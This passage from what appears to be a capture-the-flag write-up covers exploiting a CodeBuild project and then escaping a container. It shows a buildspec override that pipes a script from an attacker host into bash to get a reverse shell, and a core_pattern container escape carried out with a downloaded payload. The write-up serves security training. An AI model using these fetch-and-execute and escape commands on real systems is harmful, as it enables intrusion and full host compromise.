worker@6b13d0a4b6d8:/tmp$ aws --endpoint-url http://172.18.0.2:4566 codebuild start-build   --project-name nimbus-poc   --environment-variables-override '[{"name":"BASH_FUNC_id%%","value":"() { echo uid=1000; }","type":"PLAINTEXT"}]'   --buildspec-override 'version: 0.2 
phases:
  build:
    commands:
      - curl http://10.10.14.3:3232/w1ld.sh | /bin/bash'
{
    "build": {
        "id": "nimbus-poc:1",
        "arn": "arn:aws:codebuild:us-east-1:847219365028:build/nimbus-poc:1",
        "buildNumber": 1,
        "startTime": "2026-06-22T10:52:30.083000+00:00",
        "currentPhase": "SUBMITTED",
        "buildStatus": "IN_PROGRESS",
        "projectName": "nimbus-poc",
        "phases": [
            {
                "phaseType": "SUBMITTED",
                "phaseStatus": "SUCCEEDED",
                "startTime": "2026-06-22T10:52:30.083000+00:00",
                "endTime": "2026-06-22T10:52:30.083000+00:00",
                "durationInSeconds": 0
            },
            {
                "phaseType": "QUEUED",
                "phaseStatus": "SUCCEEDED",
                "startTime": "2026-06-22T10:52:30.083000+00:00",
                "endTime": "2026-06-22T10:52:30.083000+00:00",
                "durationInSeconds": 0
            },
            {
                "phaseType": "PROVISIONING",
                "phaseStatus": "IN_PROGRESS",
                "startTime": "2026-06-22T10:52:30.083000+00:00"
            }
        ],
        "source": {
            "type": "NO_SOURCE"
        },
        "artifacts": {},
        "environment": {
            "environmentVariables": [
                {
                    "name": "BASH_FUNC_id%%",
                    "value": "() { echo uid=1000; }",
                    "type": "PLAINTEXT"
                }
            ]
        },
        "timeoutInMinutes": 60,
        "queuedTimeoutInMinutes": 480,
        "buildComplete": false,
        "initiator": "user"
    }
}

```
{:filename="build project"}

I get a callback on my listener

```bash
[root@84fe611def4a ~]# whoami
root

```
{:filename="container root"}

## Container Escape

Let's confirm our `capabilities`

```bash
[root@84fe611def4a ~]# cat /proc/self/status | grep Cap
CapInh: 0000000000000000
CapPrm: 000001ffffffffff
CapEff: 000001ffffffffff
CapBnd: 000001ffffffffff

```
{:filename="Container capabilities"}

We can decode the `CapEff` value.

```bash
~/htb/nimbus $ capsh --decode=000001ffffffffff
0x000001ffffffffff=cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read,cap_perfmon,cap_bpf,cap_checkpoint_restore

```
{:filename="Container capabilities"}

We have full capabilities, we have quite a limited amount of resources but one escape that is quite reliable would be the [Core Pattern](https://kubehound.io/reference/attacks/CE_UMH_CORE_PATTERN/) escape.

Let's first set our `OVERLAY_PATH` envvar.

```bash
[root@84fe611def4a /]# UDIR=$(cat /proc/mounts | grep -oe upperdir="[^,]*," | cut -d = -f 2 | tr -d , | head -n 1)
[root@84fe611def4a /]# echo $UDIR
/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/212/fs

```
{:filename="overlay path"}

Next I'll grab my `reverse shell` payload.

```bash
[root@84fe611def4a /]# curl -O http://10.10.14.3:3232/w1ld.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   560  100   560    0     0    977      0 --:--:-- --:--:-- --:--:--   975
[root@84fe611def4a /]# chmod +x w1ld.sh

```
{:filename="reverse shell"}

Let's set it as the `core_pattern`

```bash
[root@84fe611def4a /]# echo "|${UDIR}/w1ld.sh" > /proc/sys/kernel/core_pattern

```
{:filename="core pattern"}

Finally let's trigger a crash with `ulimit`

```bash
[root@84fe611def4a /]# ulimit -c unlimited
[root@84fe611def4a /]# bash -c 'kill -11 $$' || true
Segmentation fault (core dumped)

```
{:filename="Force crash"}

I get a callback on my listener

```bash
root@nimbus:/# whoami
root
root@nimbus:/# cd ~/
root@nimbus:/root# ls
root.txt

```
{:filename="Root.txt"}

There we can find the `root` flag.